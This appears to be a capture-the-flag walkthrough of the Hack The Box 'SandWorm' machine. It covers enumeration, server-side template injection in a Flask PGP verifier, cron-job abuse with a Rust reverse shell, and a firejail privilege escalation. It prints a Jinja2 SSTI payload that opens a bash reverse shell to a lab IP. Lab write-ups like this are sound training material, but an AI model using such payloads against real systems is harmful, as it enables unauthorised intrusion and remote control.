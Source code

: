 ```yaml
---
title: SandWorm Hack The Box 
date: 2023-07-25 22:50:30 +/-TTTT
categories: [Hack The Box, SandWorm]
tags: [SandWorm HTB] 
image:
  path: /assets/img/htb/sandworm/logo.jpg
---
```



## Work Flow
![]( /assets/img/htb/sandworm/workflow.png)

## Enumeration
 Use nmap to scan this machine
![]( /assets/img/htb/sandworm/nmap.png)

Go to the website. I know it is the Flask framework. Click the guide to see more.
![]( /assets/img/htb/sandworm/web2.png)

## Exploit
Exploit at contact -> search exploit pgp flask and follow the guide to verify signature

- Create pgp key at https://pgpkeygen.com/ 
<p>
Try the payload  {% raw %}{{7*7}}{% endraw %} at name, after verify the signature I see the return value is 49 => so I can exploit SSTI vulnerability (Server Side Template Injection) at the name  -> copy the private key and the passwd when crating the key to sig at http://www.2pih.com/pgp.html
</p>
 

![]( /assets/img/htb/sandworm/payload.png)

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2 
 
Use payload call OS and exploit
```shell
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen(“bash -c ' bash -i >& /dev/tcp/10.10.14.31/4444 0>&1'”).read() }}{% endraw %} 
  
```

 PGP signature link: http://www.2pih.com/pgp.html
![]( /assets/img/htb/sandworm/key.png) 

Copy the public key and the signed certificate to verify the signature -> rce 
![]( /assets/img/htb/sandworm/sig.png) 
![]( /assets/img/htb/sandworm/nc.png) 
 Recon all file in atlas to find the password
![]( /assets/img/htb/sandworm/getaccount.png)
okay let's login to the machine 
![]( /assets/img/htb/sandworm/login.png)

## Escalation

![]( /assets/img/htb/sandworm/root1.png)
 
To get user root access from user silentobserver I must exploit to login with user atlas. The user atlas earlier was docker, unable to execute all commands.
 Check the cron job. I will use the cron job to get user atlas
![]( /assets/img/htb/sandworm/root_recon1.png)
![]( /assets/img/htb/sandworm/root_recon2.png)
![]( /assets/img/htb/sandworm/root_recon3.png)
 Search for a reverse shell program in the Rust language (https://github.com/LukeDSchenk/rust-backdoors/blob/master/reverse-shell/src/main.rs )and edit file lib.rs

Create a file lib.rs at attacker machine after that user silentobserver performs the download (Note: edit file lib.rs takes a long time and file is deleted every 2mins -2minutes file executes 1 time)

![]( /assets/img/htb/sandworm/edit_payload.png)
![]( /assets/img/htb/sandworm/get_payload.png)
![]( /assets/img/htb/sandworm/connect.png)
 From user atlas, escalate to root by firejail (atlas và root both belong to the group jailer)
![]( /assets/img/htb/sandworm/root_recon4.png)
 Exploit firejail to get root ( https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ )

![]( /assets/img/htb/sandworm/exploit.png)
